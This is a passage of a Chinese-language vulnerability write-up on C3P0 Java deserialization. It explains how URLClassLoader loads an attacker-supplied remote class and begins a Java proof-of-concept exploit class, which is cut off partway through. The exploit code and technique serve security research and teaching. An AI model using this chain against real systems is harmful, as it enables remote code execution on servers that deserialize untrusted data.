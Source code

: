 这里跟进`ReferenceableUtils#referenceToObject`方法, 可以看到其使用了`URLClassLoader`从`URL`中加载了类并实例化, 于是可以通过插入恶意`URL`来触发漏洞.

<div align=center><img src="./images/6.png"></div>

### POC
根据上文的分析, 构造一个不可序列化的并且实现了`Referenceable`的`ConnectionPoolDataSource`对象, 其`getReference`方法返回带有恶意类位置的`Reference`对象即可. 反序列化`PoolBackedDataSourceBase`时会处理其中的`ConnectionPoolDataSource`, 从而`URLClassLoader`加载指定的恶意类.

```java
package org.h3rmesk1t.C3P0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.Base64;
import java.util.logging.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 2:31 下午
 */
public class C3P0Exploit1 {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
```